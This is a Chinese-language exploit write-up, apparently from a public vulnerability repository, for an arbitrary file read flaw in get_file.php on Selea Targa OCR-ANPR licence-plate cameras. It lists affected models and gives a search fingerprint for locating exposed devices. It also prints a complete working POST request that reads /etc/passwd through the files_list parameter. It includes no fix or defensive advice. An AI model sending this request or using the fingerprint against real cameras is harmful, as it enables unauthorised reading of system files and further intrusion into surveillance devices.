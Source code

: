 # Selea OCR-ANPR摄像机 get_file.php 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 get_file.php存在 任意文件读取漏洞，通过构造特殊请求获取服务器文件

## 漏洞影响

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera iZero</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 512</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 504</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa Semplice</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 805</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 750</a-checkbox></br>

<a-checkbox checked>Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"selea_httpd"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/sel-1.png)



发送如下请求包



```plain
POST /cgi-bin/get_file.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: lang=en; PHPSESSID=bvib0lq6lahlhbjnfv91k13ou0

name=test&files_list=/etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/sel-4.png)